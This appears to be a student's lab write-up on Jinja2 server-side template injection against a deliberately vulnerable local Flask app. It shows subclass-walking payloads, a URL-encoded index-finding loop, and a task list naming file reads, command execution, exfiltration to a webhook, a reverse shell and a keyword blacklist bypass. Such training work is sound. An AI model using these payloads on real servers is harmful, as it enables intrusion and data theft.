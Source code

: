Q: Give unique ssti payloads for the given cases while following these conditions:
payloads must be as unique as possible ie if one starts with class.base.subclasses none others should start with it
OR you can use some other variant of the same payload like attr getattr instead of dot notation but again with these there should be at max two payloads looking similar

include the outputs of each part of payload eg for class.base.subclasses do class, then class.base and so on
by output I DONT MEAN paste the o/p, well do paste after slicing [:100] but you have to explain what the o/p actually is again for each step and also mention what more you could do with it other than what the payload you probably ripped off of somewhere is doing - for this you have to spend at least 30 minutes on the first 2 or 3 payloads you start researching

screenshots once in 5 paras

```
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route("/")
def home():
    if request.args.get("c"):
        return render_template_string(request.args.get("c"))
    else:
        return "Hello, send someting inside the param 'c'!"


if __name__ == "__main__":
    app.run()
```

- Return the index of urllib in subclasses()
  
```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__base__}}``` : ```<class 'object'>```

```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` : returns all the subclasses for that object<br>

Now to get the index at which the urllib is present, we can copy the list and iterate through it or to directly run it in the browser we can use a for loop:
```
{% set subclasses = ().__class__.__base__.__subclasses__() %}
{% for i in range(subclasses|length) %}
  {% if 'urllib' in subclasses[i].__module__ %}
    {{ i }}
  {% endif %}
{% endfor %}
```
If this is our payload, then the for loop iterates through the subclasses list and prints the index wherever it finds urllib mentioned
url encoding the block we get the payload as: ```%7B%25%20set%20subclasses%20%3D%20().__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20for%20i%20in%20range(subclasses%7Clength)%20%25%7D%0A%20%20%7B%25%20if%20'urllib'%20in%20subclasses%5Bi%5D.__module__%20%25%7D%0A%20%20%20%20%7B%7B%20i%20%7D%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D```

![image](https://github.com/poorvi1910/Web/assets/146640913/433ab890-0a54-4476-a97c-725822933382)
[SAME PAYLOAD WORKS AGAINST BLACKLIST TOO]

- get name of current python flask script


- get all the current envvars


- read a local file


- run a command


- send the contents of etc pass to  awebhook


- create a reverse shell, save your work and run the command yes on the rev shell


- re-write everything above to work against this blacklist = [    "import",    "open",    "module",    "write",    "load",    "read",    "eval",    "exec",    "system",    "os",    "_",    #",    ',    "]
